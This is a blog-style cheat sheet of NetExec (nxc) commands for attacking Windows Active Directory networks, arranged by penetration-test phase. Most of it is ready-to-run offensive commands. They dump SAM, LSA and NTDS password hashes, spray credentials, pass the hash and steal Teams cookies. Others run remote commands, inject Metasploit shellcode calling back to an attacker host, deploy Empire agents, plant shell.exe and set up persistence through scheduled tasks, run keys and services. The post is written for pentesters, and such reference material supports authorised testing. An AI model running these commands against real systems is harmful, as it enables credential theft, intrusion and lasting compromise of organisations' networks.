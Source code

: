 ```yaml
---
layout: post
title: Netexec CheatSheet
date: 30-06-2025
categories: [CheatSheet]
tag: [Red Team, Pentest, AD]
---
```


# Netexec/nxc CheatSheet:

Below is a **comprehensive table of NetExec (nxc) commands**, organized by the main phases of a typical penetration test: **Enumeration, Credential Access, Exploitation, Lateral Movement, Post-Exploitation, and Persistence**. This table is designed for quick reference and covers the most relevant options and modules for each phase.

## NetExec / nxc Command Table by Phase

| **Phase** | **Command / Option** | **Description** | **Example** |
| :-- | :-- | :-- | :-- |
| **Enumeration** | `nxc smb <target>` | Basic SMB enumeration | `nxc smb 10.0.0.5` |
|  | `--shares` | List SMB shares | `nxc smb 10.0.0.5 --shares` |
|  | `--users` | Enumerate users | `nxc smb 10.0.0.5 --users` |
|  | `--groups` | Enumerate groups | `nxc smb 10.0.0.5 --groups` |
|  | `--computers` | List computers | `nxc smb 10.0.0.5 --computers` |
|  | `--sessions` | List active SMB sessions | `nxc smb 10.0.0.5 --sessions` |
|  | `--disks` | List disks | `nxc smb 10.0.0.5 --disks` |
|  | `--loggedon-users` | List logged-on users | `nxc smb 10.0.0.5 --loggedon-users` |
|  | `--pass-pol` | Show password policy | `nxc smb 10.0.0.5 --pass-pol` |
|  | `--rid-brute` | RID brute-force for user discovery | `nxc smb 10.0.0.5 --rid-brute` |
|  | `ldap` protocol | AD enumeration (users, groups, etc.) | `nxc ldap 10.0.0.5 -u user -p pass --users` |
|  | `-M bloodhound` | Collect BloodHound data | `nxc ldap 10.0.0.5 -u user -p pass -M bloodhound` |
|  | `-M enum_dns` | Dump DNS from AD DNS server | `nxc smb 10.0.0.5 -u user -p pass -M enum_dns` |
|  | `-M enum-avproducts` | Enumerate installed AV/EDR products | `nxc smb 10.0.0.5 -u user -p pass -M enum-avproducts` |
|  | `ftp` protocol | List files/directories | `nxc ftp 10.0.0.5 -u user -p pass --ls` |
| **Credential Access** | `-u <USERNAME> -p <PASSWORD>` | Basic authentication | `nxc smb 10.0.0.5 -u admin -p 'Password123!'` |
|  | `-H <LM:NT>` | Pass-the-hash | `nxc smb 10.0.0.5 -u admin -H aad3b435b51404eeaad3b435b51404ee:hash` |
|  | `-U <userfile> -P <passfile>` | User/password spraying | `nxc smb 10.0.0.5 -U users.txt -P passwords.txt` |
|  | `--lsa` | Dump LSA secrets | `nxc smb 10.0.0.5 -u admin -p pass --lsa` |
|  | `--sam` | Dump SAM database | `nxc smb 10.0.0.5 -u admin -p pass --sam` |
|  | `--ntds` | Dump NTDS.dit (domain hashes) | `nxc smb 10.0.0.5 -u admin -p pass --ntds` |
|  | `-M gpp_password` | Dump Group Policy Preferences passwords | `nxc smb 10.0.0.5 -u admin -p pass -M gpp_password` |
|  | `--laps` | Retrieve LAPS passwords | `nxc smb 10.0.0.5 -u admin -p pass --laps` |
|  | `-M keypass_discover` | Search for KeePass files | `nxc smb 10.0.0.5 -u admin -p pass -M keypass_discover` |
|  | `-M msol` | Retrieve MSOL account password | `nxc smb 10.0.0.5 -u admin -p pass -M msol` |
| **Exploitation** | `-x <cmd>` | Execute command (CMD) | `nxc smb 10.0.0.5 -u admin -p pass -x whoami` |
|  | `-X <pscmd>` | Execute PowerShell command | `nxc smb 10.0.0.5 -u admin -p pass -X '$PSVersionTable'` |
|  | `-M empire_exec -o LISTENER=<listener>` | Deploy Empire agent | `nxc smb 10.0.0.5 -u admin -p pass -M empire_exec -o LISTENER=http` |
|  | `-M met_inject -o LHOST=<attacker> LPORT=<port>` | Inject Metasploit shellcode | `nxc smb 10.0.0.5 -u admin -p pass -M met_inject -o LHOST=10.0.0.1 LPORT=4444` |
|  | `--get-file <remote> <local>` | Download file from target | `nxc smb 10.0.0.5 -u admin -p pass --get-file \\C$\creds.txt creds.txt` |
|  | `--put-file <local> <remote>` | Upload file to target | `nxc smb 10.0.0.5 -u admin -p pass --put-file shell.exe \\C$\Temp\shell.exe` |
| **Lateral Movement** | `-M rdp` | Enable RDP on target | `nxc smb 10.0.0.5 -u admin -p pass -M rdp` |
|  | `-M impersonate` | List tokens for privilege escalation | `nxc smb 10.0.0.5 -u admin -p pass -M impersonate` |
|  | `-M install_elevated` | Check for AlwaysInstallElevated privilege | `nxc smb 10.0.0.5 -u admin -p pass -M install_elevated` |
|  | `-M get_netconnections` | Get current network connections | `nxc smb 10.0.0.5 -u admin -p pass -M get_netconnections` |
|  | `mssql` protocol | Lateral movement via MSSQL | `nxc mssql 10.0.0.5 -u sa -p pass -x whoami` |
| **Post-Exploitation** | `--sessions` | List active sessions | `nxc smb 10.0.0.5 -u admin -p pass --sessions` |
|  | `--local-groups` | List local groups | `nxc smb 10.0.0.5 -u admin -p pass --local-groups` |
|  | `-M enum_dns` | Dump DNS from AD DNS server | `nxc smb 10.0.0.5 -u admin -p pass -M enum_dns` |
|  | `-M enum-avproducts` | List installed AV/EDR | `nxc smb 10.0.0.5 -u admin -p pass -M enum-avproducts` |
|  | `-M teams_localdb` | Steal Teams cookies | `nxc ldap 10.0.0.5 -u admin -p pass -M teams_localdb` |
|  | `rdp` protocol | Take screenshot via RDP | `nxc rdp 10.0.0.5 -u admin -p pass --screenshot` |
| **Persistence** | `--x 'schtasks ...'` | Create scheduled task for persistence | `nxc smb 10.0.0.5 -u admin -p pass --x 'schtasks /create ...'` |
|  | `--x 'reg add ...'` | Registry run key persistence | `nxc smb 10.0.0.5 -u admin -p pass --x 'reg add ...'` |
|  | `--put-file <PAYLOAD> "%APPDATA%\\...\\Startup\\<PAYLOAD>"` | Startup folder persistence | `nxc smb 10.0.0.5 -u admin -p pass --put-file shell.exe "%APPDATA%\\...\\Startup\\shell.exe"` |
|  | `--x 'sc create ...'` | Install service for persistence | `nxc smb 10.0.0.5 -u admin -p pass --x 'sc create ...'` |
| **Advanced/Other** | `-L` | List available modules for protocol | `nxc smb -L` |
|  | `--obfs` | Obfuscate PowerShell commands | `nxc smb 10.0.0.5 -u admin -p pass -X '<pscmd>' --obfs` |
|  | `--bloodhound --collection All` | Run BloodHound collector | `nxc ldap 10.0.0.5 -u admin -p pass --bloodhound --collection All` |
|  | `nxcdb` | Interact with NetExec database | `nxcdb` |
|  | `workspace create <name>` | Create new workspace | `nxcdb (default) > workspace create pentest1` |
|  | `workspace <name>` | Switch workspace | `nxcdb (default) > workspace pentest1` |

**Notes:**

- Replace `<target>`, `<USERNAME>`, `<PASSWORD>`, `<listener>`, `<attacker>`, `<PAYLOAD>`, etc., with your actual values.
- Many commands can be chained, e.g., `nxc smb 10.0.0.5 -u admin -p pass --sam --lsa --dpapi`[^3].
- Use `-h` or `--help` after any protocol or module for more options.

**References:**

- [StationX NetExec Cheat Sheet](https://www.stationx.net/netexec-cheat-sheet/)
- [Ben Heater’s NetExec Notes](https://notes.benheater.com/books/active-directory/page/netexec)
- [NetExec Wiki](https://www.netexec.wiki)
- [seriotonctf/cme-nxc-cheat-sheet](https://github.com/seriotonctf/cme-nxc-cheat-sheet)
- [NetExec Database Usage](https://www.netexec.wiki/getting-started/database-general-usage)
- [Netexec Linkedin](https://www.linkedin.com/posts/housenathan_netexec-cheat-sheet-essential-commands-activity-7300440179683610624-WxmG)
- [Hacking article](https://www.hackingarticles.in/active-directory-pentesting-using-netexec-tool-a-complete-guide/)
- [AD](https://swisskyrepo.github.io/InternalAllTheThings/active-directory/internal-shares/)
- [Splunk](https://research.splunk.com/endpoint/adbff89c-c1f2-4a2e-88a4-b5e645856510/)
- [Netexec Wiki Github](https://github.com/Pennyw0rth/NetExec-Wiki/blob/main/getting-started/selecting-and-using-a-protocol.md)

